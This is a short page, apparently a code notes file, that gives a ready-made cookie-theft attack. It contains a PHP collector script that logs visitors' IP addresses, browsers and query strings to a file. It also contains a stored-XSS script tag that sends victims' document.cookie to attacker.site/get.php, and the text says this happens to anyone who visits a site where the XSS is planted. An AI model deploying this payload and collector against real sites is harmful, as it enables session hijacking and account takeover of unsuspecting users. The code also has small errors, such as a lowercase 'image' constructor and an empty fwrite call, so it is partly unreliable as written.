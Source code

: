 ##########################################################################################################

get.php file on web server to write received data to jar.txt

##########################################################################################################
```
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

$fp = fopen('jar.txt', 'a');

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fwrite($fp);
?>
```
##########################################################################################################

php string to send cookies to above php file. using stored xss when a user visits site with this xss on it will send there cookie to above php code file. could also stand up a simple webserver and send it there.

##########################################################################################################

```<script> var i = new image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>```
